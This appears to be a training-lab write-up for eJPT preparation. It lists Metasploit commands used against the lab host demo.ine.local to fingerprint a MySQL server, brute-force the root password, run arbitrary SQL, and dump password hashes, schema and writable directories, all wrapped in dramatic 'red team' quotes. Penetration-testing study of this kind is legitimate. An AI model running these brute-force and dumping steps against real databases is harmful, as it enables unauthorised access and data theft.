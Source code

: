 # Red Team: Noir Edition  
## MySQL Enumeration via Metasploit – Operation: Phantom Schema  
### eJPT Prep Project

> _"The database whispered secrets. I made it scream."_  
> — **NoirSpecter**

---

## Target  
**Hostname:** `demo.ine.local`  
**Tools Used:**  
- Kali Linux (GUI)  
- Nmap  
- Metasploit Framework

---

## Objective  
Run a series of Metasploit **MySQL auxiliary modules** against the target to perform recon, credential discovery, and data extraction. No payloads—just **pure information warfare**.

---

## 📡 Phase 1: Initial Recon

### 🔍 Check Target Availability

ping -c 4 demo.ine.local
✅ Host is reachable.

🔍 Nmap Scan
nmap demo.ine.local
✅ Port 3306 open — MySQL service detected.


🧰 Phase 2: Metasploit Module Execution

1. 🧬 MySQL Version Fingerprint
use auxiliary/scanner/mysql/mysql_version
set RHOSTS demo.ine.local
run
✅ MySQL version confirmed.


2. 🔓 MySQL Login Bruteforce
use auxiliary/scanner/mysql/mysql_login
set RHOSTS demo.ine.local
set USERNAME root
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
run
✅ Credentials discovered:
root : twinkle


3. 🧠 MySQL Enumeration
use auxiliary/admin/mysql/mysql_enum
set USERNAME root
set PASSWORD twinkle
set RHOSTS demo.ine.local
run
📖 Extracted:
	•	User accounts
	•	Version info
	•	Privileges
	•	Hostnames


4. 🖥️ SQL Execution via Authenticated Session
use auxiliary/admin/mysql/mysql_sql
set USERNAME root
set PASSWORD twinkle
set RHOSTS demo.ine.local
run
🧨 Arbitrary SQL execution successful.


5. 📁 File Enumeration
use auxiliary/scanner/mysql/mysql_file_enum
set USERNAME root
set PASSWORD twinkle
set RHOSTS demo.ine.local
set FILE_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt
set VERBOSE true
run
🗂️ Visible filesystem paths discovered.


6. 🔐 Hash Dump
use auxiliary/scanner/mysql/mysql_hashdump
set USERNAME root
set PASSWORD twinkle
set RHOSTS demo.ine.local
run
🔑 Password hashes retrieved.


7. 🧱 Schema Dump
use auxiliary/scanner/mysql/mysql_schemadump
set USERNAME root
set PASSWORD twinkle
set RHOSTS demo.ine.local
run
📚 Database schema successfully dumped.


8. ✍️ Writable Directory Scan
use auxiliary/scanner/mysql/mysql_writable_dirs
set RHOSTS demo.ine.local
set USERNAME root
set PASSWORD twinkle
set DIR_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt
run
⚠️ Writable directories identified. Post-exploitation entry points confirmed.

✅ Conclusion

The target (demo.ine.local) exposed a poorly secured MySQL instance, allowing full enumeration and data exfiltration via Metasploit’s auxiliary modules. No exploitation or shell required—just careful, methodical red team reconnaissance.

“The system didn’t scream. It whispered everything I needed to know.”
— NoirSpecter
